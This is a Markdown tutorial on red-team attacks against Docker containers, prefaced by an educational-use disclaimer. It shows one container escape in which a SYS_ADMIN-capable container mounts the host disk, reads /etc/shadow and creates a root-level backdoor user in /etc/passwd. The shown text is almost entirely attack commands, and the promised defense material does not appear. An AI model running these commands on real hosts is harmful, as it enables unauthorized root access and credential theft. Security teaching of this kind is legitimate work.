 # 🔴 Red Team Attacks: Docker Security Exploitation & Defense

## 🎯 Understanding Red Team Docker Security

Red team security testing involves simulating real-world attacks against Docker containers to identify vulnerabilities, test security controls, and validate defense mechanisms. This section covers attack scenarios, exploitation techniques, and security edge cases.

## ⚠️ **DISCLAIMER: Educational Purpose Only**
```bash
# This content is for:
- Security research and education
- Penetration testing with proper authorization
- Improving container security defenses
- Interview preparation and skill development

# NOT for:
- Unauthorized attacks
- Malicious activities
- Production environment exploitation
- Illegal activities
```

## 🚨 Container Escape Attack Scenarios

### **1. Privilege Escalation via Capabilities**

#### **Attack Vector: SYS_ADMIN Capability**
```bash
# Attacker gains shell in container
docker exec -it vulnerable-container /bin/bash

# Check current capabilities
cat /proc/1/status | grep CapEff

# If SYS_ADMIN capability is present:
# Mount host filesystem
mount /dev/sda1 /mnt/host
cd /mnt/host
ls -la /etc/passwd

# Access host files
cat /mnt/host/etc/shadow
cat /mnt/host/etc/ssh/sshd_config

# Create backdoor user
echo "backdoor:$(openssl passwd -1 password):0:0::/root:/bin/bash" >> /mnt/host/etc/passwd
```
